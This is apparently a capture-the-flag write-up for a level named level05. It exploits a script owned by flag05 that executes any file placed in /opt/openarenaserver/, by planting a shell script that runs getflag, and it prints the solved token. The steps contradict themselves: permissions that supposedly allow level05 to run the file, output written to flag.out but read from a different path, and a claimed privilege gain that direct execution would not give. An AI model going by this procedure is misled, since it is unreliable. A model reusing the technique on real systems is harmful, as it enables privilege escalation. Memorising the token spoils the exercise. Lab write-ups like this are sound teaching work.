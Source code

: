 ### Solution

1. **Locate files owned by `flag05`:**

	```bash
	find / -user flag05 2>/dev/null
	```

	You’ll see:

	```
	/usr/sbin/openarenaserver
	/rofs/usr/sbin/openarenaserver
	```

2. **Inspect the main file:**

	```bash
	ls -la /usr/sbin/openarenaserver
	```

	Output:

	```
	-rwxr-x---+ 1 flag05 flag05 94 Mar  5  2016 /usr/sbin/openarenaserver
	```

	This file:

	* Is **executable only by `flag05` and members of group `flag05`**
	* But since you're `level05`, you have permission to run it.

3. **Read the script contents:**

	```bash
	cat /usr/sbin/openarenaserver
	```

	```bash
	#!/bin/sh

	for i in /opt/openarenaserver/* ; do
	(ulimit -t 5; bash -x "$i")
	rm -f "$i"
	done
	```

	This means:

	* The script runs **any file in `/opt/openarenaserver/`** using `bash -x`
	* Then it deletes it
	* It runs as `flag05`, so anything executed will inherit `flag05`'s privileges

4. **Exploit: Inject a script to get the flag**

	Create a shell script in `/opt/openarenaserver/`:

	```bash
	echo '/bin/getflag > /home/user/level05/flag.out' > /opt/openarenaserver/getflag05.sh
	chmod +x /opt/openarenaserver/getflag05.sh
	```

	Then run the vulnerable binary:

	```bash
	/usr/sbin/openarenaserver
	```

	It will:

	* Execute your script as `flag05`
	* Delete the script
	* And write the flag to `flag.out`

5. **Read the flag:**

	```bash
	cat /home/user/level05/flag05
	```

	Output:

	```
	Check flag.Here is your token : viioq2mai7ae7pohb9cu6ah8
	```

	You’ve successfully executed `getflag` with `flag05`’s privileges.

